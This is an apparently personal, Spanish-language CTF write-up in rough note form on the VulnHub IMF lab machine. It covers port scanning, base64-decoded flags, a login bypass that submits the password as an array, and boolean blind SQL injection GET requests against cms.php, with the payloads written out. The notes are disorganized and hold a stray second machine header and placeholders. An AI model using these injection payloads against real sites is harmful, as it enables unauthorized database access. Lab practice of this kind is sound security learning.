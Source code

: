 Plataforma: [VulnHub](https://www.vulnhub.com/entry/imf-1,162/)
Ataques: 
- Web Application Attack
- SQL inyection.
- Remote SSH.
Dificultad: Media

Herramientas:
- [[VW Ware]].

**Plataforma:** [VulnHub](https://www.vulnhub.com/entry/darkhole-2,740/) 
**Objetivo:** _Rootear_ la máquina virtual DarkHole V2.
**Dificultad:** Media 
**Técnicas Clave:** Enumeración GIT, Inyección SQL, Escalada de Privilegios (Abuso de Servicio Local).

---


# Fase de reconocimiento: 

Usando la herramienta arp-scan para definir cual es la IP de la maquina

❯ arp-scan -I vmnet1 --localnet
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 172.16.23.1
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.23.129	00:0c:29:73:6c:8b	VMware, Inc.
172.16.23.254	00:50:56:ff:74:5a	VMware, Inc.

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.076 seconds (123.31 hosts/sec). 2 responded

Descubrimos que la maquina es 172.16.23.129

Intentamos hacer ping: 

❯ ping -c 1 172.16.23.129

Maquina no responde por lo que nos apoyamos de la herramienta TCPing para rerificar conexiones
https://github.com/cloverstd/tcping

[
QUE HACE TCPING?
]

Me logre conectar por medio de la herramienta, tuve que copilarla a mano:

git clone https://github.com/cloverstd/tcping
cd tcping
╰─ go build -ldflags "-s -w" .

Go tuvo que descargar unas cosas, por lo que tuve que tirar de proxy para realizar la conexión de forma correcta       

## nmap

Hago un primer escaneo básico de reconocimiento de puertos:

╰─ sudo nmap -p- --open -sS -T4 -vvv -n -Pn 172.16.23.129 -oG allports  

Me da la siguiente info:
   4   │ Host: 172.16.23.129 ()  Ports: 80/open/tcp//http/// Ignored State: filtered (65534)

Con esto me doy cuenta que solo el puerto 80 está abierto


Con los puertos definidos tiro el siguiente comando:

❯ nmap -p80 -sCV 172.16.23.129 -oN targeted

   5   │ PORT   STATE SERVICE VERSION
   6   │ 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
   7   │ |_http-title: IMF - Homepage
   8   │ |_http-server-header: Apache/2.4.18 (Ubuntu)



vamos a la soruce de la web page y encontramos unas cadena en lo que parece ser base64


ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==

```
ejecutamos ❯ echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==" | base64 -d; echo
```

teniendo como resultado:

```
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
```

resultado:
imfadministrator

obviamente la ruta en el servidor web :v

buscando en los subdominios de la pagina tambien encontramos

```
<!-- flag1{YWxsdGhlZmlsZXM=} -->
```
dando como resultado: allthefiles (Que?)

Tambien encontramos unos posibles usuarios 
![[Pasted image 20251017142006.png]]



--- 
Ingreso a  /imfadministrator

source code: 
```
|   |
|---|
|<form method="POST" action="">|
|<label>Username:</label><input type="text" name="user" value=""><br />|
|<label>Password:</label><input type="password" name="pass" value=""><br />|
|<input type="submit" value="Login">|
|<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->|
|</form>|
||
```

nos encontramos lo que parece ser un mensaje de contraseña "harcoded" XD




---


Genial, con esta informacion procedo a verificar que se pueden enumerar usuarios en el panel de login. 

de esta forma, me doy cuenta que todos los usuarios existen en la base de datos

con esta informacion procedo a interceptar la petición con burp suit para modificar las solicitudes.

![[Pasted image 20251017143648.png]]

mi amigo 'or 1=1-- - no di resultado ni nada por estilo. Lo que funcionó es interceptar el campo de pass, dando a entender que es un array, dando como respuesta TRUE y consiguiendo la 3ra flag:

```
flag3{Y29udGludWVUT2Ntcw==}<br />
```
continueTOcms

+-



en el CMS hacemos unoos ataques SQL

probamos una comilla en la URL y nos fijamos que tiene un error SQL dandonos el directorio de server

GET /imfadministrator/cms.php?pagename=home' HTTP/1.1

Me doy cuenta que el error indica que está trabajando con reconocimiento booleano 
de bases de datos, por lo que procedemos a revisar esta misma logica:



GET /imfadministrator/cms.php?pagename=home'+and +'1'='1

Vemos "Welcome to the IMF Administration." en la pantalla por lo que de esta forma podemos identificar cuando algo se considera TRUE

GET /imfadministrator/cms.php?pagename=home'+and +'1'='2

De esta forma, la pantalla sale completamente blanca. Ya sabemos que significa FALSE



Ya con este en mente, podemos empezar a extraer información de la base de datos!

Con esta teria confirmamos el nombre de la base "mysql" dentro de SQL.


GET /imfadministrator/cms.php?pagename=home'+and+(select+schema_name+from+information_schema.schemata+limit+0,1)='mysql HTTP/1.1

claro, ahora sabemos que la base de datos tiene nombres comunes como "mysql" o "information_schema". Ahora vamos a averigurar los nombres de las bases de datos restantes. para ello, debebos probar caracter por caracter hasta rerificar de forma correcta. esto se puede automatizar con python de una forma to guapa- apra verifificar letra por letra hago.

Teniendo en cuenta que la letra "m" de la palabra mysql es la primera cargo el siguiente payload:

GET /imfadministrator/cms.php?pagename=home'+and+(select+substring(schema_name,1,1)+from+information_schema.schemata+limit+2,1)='m 

devolviendome TRUE!

esto confirma que podemos enuerar los caracteres de las bases de datos aunque no nos cozcamos las misas.


























```

|<script src="[js/vendor/modernizr-2.6.2.min.js](http://172.16.23.129/js/vendor/modernizr-2.6.2.min.js)"></script>|
|<script src="[js/vendor/jquery-1.10.2.min.js](http://172.16.23.129/js/vendor/jquery-1.10.2.min.js)"></script>|
|<script src="[js/bootstrap.min.js](http://172.16.23.129/js/bootstrap.min.js)"></script>|
|<script src="[js/ZmxhZzJ7YVcxbVl.js](http://172.16.23.129/js/ZmxhZzJ7YVcxbVl.js)"></script>|
|<script src="[js/XUnRhVzVwYzNS.js](http://172.16.23.129/js/XUnRhVzVwYzNS.js)"></script>|
|<script src="[js/eVlYUnZjZz09fQ==.min.js](http://172.16.23.129/js/eVlYUnZjZz09fQ==.min.js)"></script>|
```
Escaneo basico de reconocimiento
```
Starting Nmap 7.98 ( https://nmap.org ) at 2025-10-14 22:36 -0500
Initiating ARP Ping Scan at 22:36
Scanning 172.16.23.129 [1 port]
Completed ARP Ping Scan at 22:36, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:36
Scanning 172.16.23.129 [65535 ports]
Discovered open port 80/tcp on 172.16.23.129
SYN Stealth Scan Timing: About 23.23% done; ETC: 22:39 (0:01:42 remaining)
SYN Stealth Scan Timing: About 59.61% done; ETC: 22:38 (0:00:41 remaining)
Completed SYN Stealth Scan at 22:38, 87.52s elapsed (65535 total ports)
Nmap scan report for 172.16.23.129
Host is up, received arp-response (0.00027s latency).
Scanned at 2025-10-14 22:36:49 -05 for 88s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON

80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:73:6C:8B (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 87.73 seconds
           Raw packets sent: 131138 (5.770MB) | Rcvd: 104 (5.320KB)

```

sudo nmap -p- --open -sS -T4 -vvv -n -Pn 172.16.23.129

sudo nmap -p80 -sCV 172.16.23.129


172.16.23.129	00:0c:29:73:6c:8b	VMware, Inc.

ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==

DESCARGAR;
- tcping GITHUB

